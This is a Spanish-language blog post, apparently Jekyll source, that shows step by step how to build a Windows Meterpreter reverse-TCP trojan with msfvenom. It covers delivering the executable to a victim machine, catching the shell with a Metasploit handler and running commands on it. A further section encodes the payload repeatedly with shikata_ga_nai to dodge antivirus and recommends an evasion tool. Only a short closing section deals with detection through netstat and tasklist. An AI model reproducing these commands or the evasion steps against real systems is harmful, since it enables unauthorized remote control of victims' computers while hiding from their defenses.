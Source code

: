 ```yaml
---
date: 2022-04-27T22:40:05.000Z
layout: post
comments: true
title: Creación de malware
subtitle: 'por medio de msfvenom'
description: >-
image: >-
    http://imgfz.com/i/kAO6vGe.png
optimized_image: >-
  http://imgfz.com/i/kAO6vGe.png
category: ciberseguridad
tags:
  - reverse
  - malware
  - troyano
  - msfvenom
  - handler
  - metasploit
  - meterpreter
  - explotación
  - linux
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


### Msfvenom

Es un generador de carga útil independiente. Es una combinación de Msfpayload y Msfencode. Es rápido y utiliza una sola instancia. También tiene opciones de línea de comando estandarizadas. Puede generar cargas útiles para tantas plataformas como Cisco, Android, OSX, BSD, Solaris, Firefox, Windows, Unix, Nodejs y mucho más.

Para empezar creamos un ejecutable malicioso, el cual por defecto será para arquitecturas x32. Para asignar x64 se debe asignar windows/x64/meterpreter/reverse_tcp.

```bash
┌─[root@kali]─[/home/user/malware]
└──╼ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.1.1.19 lport=9999 -f exe -o poc.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: poc.exe
```

Parámetros usados:

| Parámetro | Utilidad |
| :--------: | :-------: |
| -p | Se carga el payload. |
| lhost | La dirección IP de la máquina atacante. |
| lport | El puerto que se usará para ejecutar el malware. |
| -f | Se selecciona el tipo de archivo que queremos. |
| -o | Se le asigna un nombre. |

El ejecutable lo trasladamos a la máquina victima:

![1](http://imgfz.com/i/MXWNr4G.png)

Ahora procedemos a ponernos a la escucha:

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf6 exploit(multi/handler) > set LHOST 10.1.1.19
LHOST => 10.1.1.19
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.1.1.19:9999 
```
Ahora ejecutamos el troyano en la máquina victima:

![2](http://imgfz.com/i/IxQi5sr.png)

Se recibe y crea la sesión en nuestra máquina:

```
[*] Sending stage (175174 bytes) to 10.1.1.5
[*] Meterpreter session 1 opened (10.1.1.19:9999 -> 10.1.1.5:1204 ) at 2022-04-27 19:46:16 -0400

meterpreter > shell
Process 356 created.
Channel 1 created.
Microsoft Windows [Versi�n 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. Reservados todos los derechos.

C:\Users\Demo\Desktop>whoami
whoami
demo-pc\demo

C:\Users\Demo\Desktop>ipconfig
ipconfig

Configuraci�n IP de Windows


Adaptador de Ethernet Conexi�n de �rea local:

   Sufijo DNS espec�fico para la conexi�n. . : 
   Direcci�n IPv6 . . . . . . . . . . : fd17:625c:f037:101:38fa:7c31:76d4:8fb7
   Direcci�n IPv6 temporal. . . . . . : fd17:625c:f037:101:d4c7:ff3e:dc1b:b81b
   V�nculo: direcci�n IPv6 local. . . : fe80::38fa:7c31:76d4:8fb7%11
   Direcci�n IPv4. . . . . . . . . . . . . . : 10.1.1.5
   M�scara de subred . . . . . . . . . . . . : 255.255.255.0
   Puerta de enlace predeterminada . . . . . : fe80::5054:ff:fe12:3500%11
                                       10.1.1.1

Adaptador de t�nel isatap.{013659A2-A2D8-4DE0-AF04-BB55011CFF79}:

   Estado de los medios. . . . . . . . . . . : medios desconectados
   Sufijo DNS espec�fico para la conexi�n. . : 

C:\Users\Demo\Desktop>dir
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: 4479-B434

 Directorio de C:\Users\Demo\Desktop

27-04-2022  20:44    <DIR>          .
27-04-2022  20:44    <DIR>          ..
17-03-2021  04:06               925 Nmap - Zenmap GUI.lnk
27-04-2022  20:38            73.802 poc.exe
               2 archivos         74.727 bytes
               2 dirs  20.974.960.640 bytes libres
```

### Codificar malware

Esto sirve para intentar ocultar el malware y que este no sea detectado dentro del sistema:

```
┌─[root@kali]─[/home/user/malware]
└──╼ msfvenom -p windows/meterpreter/reverse_tcp -i 10 -e x86/shikata_ga_nai lhost=10.1.1.19 lport=9999 -f exe -o poc2.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai succeeded with size 462 (iteration=3)
x86/shikata_ga_nai succeeded with size 489 (iteration=4)
x86/shikata_ga_nai succeeded with size 516 (iteration=5)
x86/shikata_ga_nai succeeded with size 543 (iteration=6)
x86/shikata_ga_nai succeeded with size 570 (iteration=7)
x86/shikata_ga_nai succeeded with size 597 (iteration=8)
x86/shikata_ga_nai succeeded with size 624 (iteration=9)
x86/shikata_ga_nai chosen with final size 624
Payload size: 624 bytes
Final size of exe file: 73802 bytes
Saved as: poc2.exe
```
Parámetros usados:

| Parámetro | Utilidad |
| :--------: | :-------: |
| -i | Cantidad de veces que se va a codificar. |
| -e | Se selecciona el tipo de codificador. |

Para ver la lista de codificadores que contiene msfvenom de deber realizar lo siguiente:

```
┌─[root@kali]─[/home/user/malware]
└──╼ msfvenom -l encoders
```

>Otra forma recomendada para evitar que sea detectado el malware es por medio de la herramienta [Phantom-Evasion](https://github.com/oddcod3/Phantom-Evasion).


### Forense

Ahora desde el lado de la víctima ¿cómo se descubre que se está ejecutando un proceso como este?. La respuesta es a través de dos comandos, iniciando por ```netstat```:

![3](http://imgfz.com/i/jCP63Yc.png)

Se identifica un puerto extraño. Ahora a través de ```tasklist``` y con el PID que en este caso es 1004, podremos descubrir cual es el troyano en ejecución:

![4](http://imgfz.com/i/UyWCaxj.png)

Si seguimos bajando lo podremos detectar:

![5](http://imgfz.com/i/TQVYPH2.png)
